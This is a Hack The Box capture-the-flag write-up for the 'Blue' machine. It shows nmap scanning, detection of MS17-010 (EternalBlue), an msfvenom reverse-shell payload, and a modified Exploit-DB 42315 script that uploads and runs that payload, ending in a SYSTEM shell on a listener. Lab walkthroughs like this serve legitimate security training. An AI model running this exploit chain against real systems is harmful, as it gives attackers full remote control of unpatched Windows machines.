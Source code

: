 ```yaml
---
permalink: /posts/HTB/Blue
title:  "HTB Blue"
author: Luc Kolen
description: "Blue is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - SMB
  - MS17-010
---
```

# 10.10.10.40 - Blue

- [10.10.10.40 - Blue](#10101040---blue)
  - [Open ports](#open-ports)
  - [SMB Vulnerability](#smb-vulnerability)
    - [Changing the exploit script](#changing-the-exploit-script)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/HTB/Forest$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.40
```

|Port|Service|
|---|---|
tcp/135|msrpc
tcp/139|netbios-ssn
tcp/445|microsoft-ds
tcp/49152|msrpc
tcp/49153|msrpc
tcp/49154|msrpc
tcp/49155|msrpc
tcp/49156|msrpc
tcp/49157|msrpc

## SMB Vulnerability

```bash
luc@kali:~/HTB/Blue$ sudo nmap --script=*smb-vuln* -p139,445 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-10 15:59 CEST
Nmap scan report for 10.10.10.40
Host is up (0.013s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```

This machine is vulnerable to `MS17-010` (also known as `EternalBlue`).

### Changing the exploit script

[Exploit-db 42315](https://www.exploit-db.com/exploits/42315) is a Python script that will exploit MS17-010. We do need to make some changes to it.

This script needs an username and password that can connect to SMB.

```bash
luc@kali:~/HTB/Blue$ smbmap -u guest -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

Guest access is allowed so we can use those credentials.

```python
USERNAME = 'guest'
PASSWORD = ''
```

We'll need a payload to be executed, for this we'll use `MSFvenom` to generate a Windows executable.

```bash
luc@kali:~/HTB/Blue$ msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.16 LPORT=443 > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

The default payload that will be executed is defined in the `smb_pwn` function.

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()

    print('creating file c:\\pwned.txt on the target')
    tid2 = smbConn.connectTree('C$')
    fid2 = smbConn.createFile(tid2, '/pwned.txt')
    smbConn.closeFile(tid2, fid2)
    smbConn.disconnectTree(tid2)
```

We'll update this payload to make it upload our executable and run it.

```python
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        smb_send_file(smbConn, r'/home/luc/HTB/Blue/shell.exe', 'C', '/shell.exe')
        service_exec(conn, r'cmd /c c://shell.exe')
```

```bash
luc@kali:~/HTB/Blue$ python 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80039e4670
SESSION: 0xfffff8a0022246a0
FLINK: 0xfffff8a008379048
InParam: 0xfffff8a0027d315c
MID: 0xd02
unexpected alignment, diff: 0x5ba5048
leak failed... try again
CONNECTION: 0xfffffa80039e4670
SESSION: 0xfffff8a0022246a0
FLINK: 0xfffff8a0027e5088
InParam: 0xfffff8a0027df15c
MID: 0xd07
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.10.40.....
Creating service LgbE.....
Starting service LgbE.....
The NETBIOS connection with the remote host timed out.
Removing service LgbE.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

```bash
luc@kali:~/HTB/Blue$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.40.
Ncat: Connection from 10.10.10.40:49164.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>cd ../../Users/Administrator/Desktop
C:\Users\Administrator\Desktop>type root.txt
ff548eb7************************
C:\Users\Administrator\Desktop>cd ../../haris/Desktop
C:\Users\haris\Desktop>type user.txt
4c546aea************************
```

## TL;DR

- Machine is vulnerable to MS17-010, using this exploit gives nt authority\system access
